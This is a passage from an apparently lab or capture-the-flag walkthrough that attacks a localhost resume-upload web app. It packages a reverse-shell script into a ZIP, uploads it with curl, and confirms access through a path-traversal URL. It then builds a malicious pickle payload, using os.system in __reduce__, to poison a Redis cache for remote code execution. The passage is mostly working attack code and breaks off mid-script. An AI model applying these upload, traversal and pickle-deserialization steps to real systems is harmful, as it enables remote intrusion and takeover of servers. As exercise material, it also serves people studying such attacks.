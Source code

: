 ```bash
cp reverse_shell.py upload_package/
cp legitimate_resume.txt upload_package/

# Create the ZIP file
cd upload_package
zip ../malicious_upload.zip reverse_shell.py legitimate_resume.txt
cd ..
```

### 10. Upload the ZIP File via Web Interface

```bash
# Upload using curl
curl -X POST http://localhost:8080/upload \
  -F "file=@malicious_upload.zip" \
  -F "description=Senior Engineer Applications"

# Or upload manually through the web interface:
# 1. Open http://localhost:8080 in browser
# 2. Navigate to upload section
# 3. Select malicious_upload.zip
# 4. Click Upload
```

### 11. Verify Reverse Shell File is Accessible

Check if the reverse shell was extracted and is accessible:

```bash
# Try to access the reverse shell script
curl http://localhost:8080/static../resumes/reverse_shell.py

# You should see the Python code
# If you see it, the file is accessible and ready to execute
```

**If you can see the reverse_shell.py content, you're ready for exploitation!**

### Phase 4: Cache Poisoning for RCE

### 12. Create Malicious Pickle Payload

Now create the actual exploit payload that executes our reverse shell:

```bash
cat > exploit_payload.py << 'EOF'
import pickle
import base64
import os

class ReverseShellRCE:
    def __reduce__(self):
        # Execute the uploaded reverse shell
        cmd = 'python3 /app/resumes/reverse_shell.py'
        return (os.system, (cmd,))

# Serialize the malicious object
payload = pickle.dumps(ReverseShellRCE())
encoded_payload = base64.b64encode(payload).decode()

print("="*60)
print("MALICIOUS PICKLE PAYLOAD (Base64)")
print("="*60)
print(encoded_payload)
print("="*60)
print("\nRedis Command:")
```